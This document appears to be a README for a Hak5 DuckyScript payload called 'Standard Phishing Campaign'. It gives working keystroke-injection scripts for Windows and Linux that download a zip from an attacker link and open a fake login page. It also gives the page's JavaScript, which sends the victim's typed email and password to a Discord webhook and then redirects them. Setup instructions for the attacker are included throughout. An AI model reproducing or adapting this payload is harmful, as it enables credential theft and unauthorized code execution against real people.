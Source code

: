 # Standard Phishing Campaign

A script used to exfiltrate the Standard username and password by a phishing campaign.

**Category**: Phishing

## Description

A script used to exfiltrate the Standard username and password by a phishing campaign.

This DuckyScript code performs several actions related to downloading and unzipping a file from a specified link. The script creates a new random directory, downloads a zip file from the specified URL, and unzips it. It also opens a login page.

This payload was created and tested on Linux but since the HTML markup code and JavaScript language are cross platform it will certainly be usable on machines running Windows or MacOS as well. However, it is essential to modify the DuckyScript script appropriately according to the terminal emulator used (PowerShell for Windows, Shell MacOS for Macs) since the commands are often not the same. To make it easier to use below you can find the various tested configurations, at the moment it is not available for macOS because since I do not have one it cannot be tested and therefore I cannot give the certainty that it works, however I hope that in the Hak5 community there may be someone who can contribute to this payload by completing it with this missing part.

### Payload.txt config - Windows 10/11 - Tested on Windows 11

```DuckyScript
    DELAY 1000
    GUI r
    DELAY 1000
    STRING powershell
    ENTER
    DELAY 2000

    STRINGLN do { $dir_name = [IO.Path]::Combine([IO.Path]::GetTempPath(), [IO.Path]::GetRandomFileName()) } while (Test-Path $dir_name)
    DELAY 500
    STRINGLN New-Item -ItemType Directory -Path $dir_name -ErrorAction Stop
    DELAY 500
    STRINGLN Set-Location $dir_name -ErrorAction Stop
    DELAY 500
    STRINGLN Invoke-WebRequest -Uri "#ZIP_LINK" -OutFile file.zip
    DELAY 2000
    STRINGLN Expand-Archive file.zip
    DELAY 500
    STRINGLN Invoke-Item login.html
    DELAY 500
```

### Payload.txt config - Linux (Debian based) - Tested on Ubuntu 23.04

```DuckyScript
    DELAY 1000
    CTRL-ALT t
    DELAY 2000

    REM Actual script...
```

# Getting Started

## Dependencies

* Internet Connection
* You own ZIP link
* Discord webhook (or whatever you want to use for the exfiltration)
* Python
* 'ExecutionPolicy Bypass' if used in Windows 10/11

## Settings

* Set the Discord wehbook (or whatever you want) into the script.js file at line 3

    ```JavaScript
    // SET YOUR DISCORD WEBHOOK or whatever you want to exfiltrate the data
    const discord_webhook_url = "https://discord.com/api/webhooks/123/abc";
    ```

* Set the redirect link that you want to use when the payload is sent

    ```JavaScript
    // DEFINE the redirect link preferred
    window.location.href = "https://www.example.com";
    ```

* Set the ZIP link as described in the payload.txt

    ```plaintext
    # - Replace example.com/file.zip with your own ZIP link. The zip should contian the files ['login.html', 'script.js']
    ZIP_LINK='example.com/file.zip'
    ```

## JavaScript/HTML Documentation

- This JavaScript code aims to send the credentials entered in an HTML form to a Discord Webhook or any other remote server. The code is written as an asynchronous function named **send_login()**, which is called when the user presses the login button in the HTML form.

    ```JavaScript
    async function send_login() {
        // ...
    }
    ```

- The first thing the code does is to set the **discord_webhook_url** constant to the Discord Webhook URL where the message containing the credentials will be sent. Then, the **email** and **password** values are retrieved from the form input fields using their **id** attributes.

    ```JavaScript
    // SET YOUR DISCORD WEBHOOK or whatever you want to exfiltrate the data
    const discord_webhook_url = "https://discord.com/api/webhooks/123/abc";

    // Retrieve data from POST form
    const email = document.getElementById('email').value;
    const password = document.getElementById('password').value;
    ```

- After that, a **message** variable is created by concatenating the **email** and **password** values. This message will be sent to the Discord Webhook.

    ```JavaScript
    // Create message content
    const message = "Email: " + email + " \n " + "Password: " + password;
    ```

- The **fetch()** method is used to send an HTTP POST request to the Discord Webhook URL. The request body is a JSON object that contains the **message** content. If the response status is **ok**, the user is redirected to the specified URL, which is set in the **window.location.href** property. Otherwise, a generic error is thrown.

    ```JavaScript
    // Send POST request to Discord webhook URL
    const response = await fetch(discord_webhook_url, {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ content: message })
    });
    if (response.ok) {
        // DEFINE the redirect link preferred
        window.location.href = "https://www.example.com";
    } else {
        // Otherwise, throw a generic error
        throw new Error('Generic error!');
    ```

- If an error occurs during the execution of the **fetch()** method, it will be caught by the **catch()** block and logged to the console using the **console.error()** method.

    ```JavaScript
    try{
        // ...
    } catch (error) {
        // Log any errors to the console
        console.error(error);
    }
    ```

- To use this code, you need to replace the **discord_webhook_url** constant with the actual Discord Webhook URL or the URL of any other remote server that you want to send the message to. You also need to ensure that the **id** attributes of the email and password input fields in the HTML form match the values used in the **getElementById()** method calls. Finally, you need to call the **send_login()** function when the user submits the form.

    ```HTML
    <form onsubmit="send_login(); return false;" method="post">
        <div class="form-group">
            <label for="email">Email:</label>
            <input type="email" class="form-control" id="email" placeholder="Insert your email">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <input type="password" class="form-control" id="password" placeholder="Insert your password">
        </div>
        <button type="submit" class="btn btn-primary">Login</button>
    </form>
    ```

## DuckyScript Documentation

This DuckyScript code performs several actions related to downloading and unzipping a file from a specified link. The script creates a new random directory, downloads a zip file from the specified URL, and unzips it. It also opens a login page.

- First, the script creates a new random directory using the mktemp command and assigns its path to the dir_name variable. The DELAY command is used to pause the script execution for 500 milliseconds.

    ```plaintext
    REM Create a random directory
    STRINGLN dir_name=$(mktemp -d)
    DELAY 500
    ```

- Next, the script sets a timer using the sleep command to delete the directory after 60 minutes (3600 seconds). The rm -rf command is used to remove the directory and its contents. The & character is used to run this command in the background, allowing the script to continue running. Another DELAY command is used to pause the script execution for 500 milliseconds.

    ```plaintext
    REM Delete the directory after 60 minutes (3600 seconds)
    STRINGLN (sleep 3600 && rm -rf $dir_name) &
    DELAY 500
    ```

- The script then moves into the directory using the cd command and the dir_name variable. Another DELAY command is used to pause the script execution for 500 milliseconds.

    ```plaintext
    REM Move into the directory
    STRINGLN cd $dir_name
    DELAY 500
    ```

- Next, the script downloads the zip file from the specified URL using the curl command. The LOk option is used to download the file and give it the same name as the original file. The #ZIP_LINK placeholder should be replaced with the actual URL of the zip file. Another DELAY command is used to pause the script execution for 500 milliseconds.

    ```plaintext
    REM Download the zip from your own link
    STRINGLN curl -LOk "#ZIP_LINK"
    DELAY 500
    ```

- The script then unzips the downloaded file using the unzip command. The DELAY command is used again to pause the script execution for 500 milliseconds.

    ```plaintext
    REM Unzip it
    STRINGLN unzip file.zip
    DELAY 500
    ```

- Finally, the script opens the login page using the xdg-open command and the login.html file. The exit command is used to terminate the script.

    ```plaintext
    REM Open the login page
    STRINGLN xdg-open login.html; exit;
    ```